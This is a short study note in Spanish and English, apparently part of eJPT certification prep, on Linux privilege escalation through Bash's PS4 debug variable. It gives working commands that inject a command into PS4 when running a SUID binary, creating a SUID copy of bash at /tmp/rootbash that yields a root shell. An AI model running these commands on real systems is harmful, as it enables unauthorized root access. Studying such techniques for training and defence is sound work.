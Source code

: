 Nota: Esto no funcionará en las versiones 4.4 y superiores de Bash.

- Cuando está en modo de depuración, Bash usa la variable de entorno PS4 para mostrar un mensaje adicional para las declaraciones de depuración.

-  Run the **/usr/local/bin/suid-env2** executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

- Ejecute el ejecutable /tmp/rootbash con -p para obtener un shell que se ejecute con privilegios de root:


```
/tmp/rootbash -p
```

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/SUID - SGID Executables  Known - Exploits]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/SUID - SGID Executables - Abusing Shell Features (1)]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/SUID - SGID Executables - Environment Variables]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/SUID - SGID Executables - Shared Object Injection]]

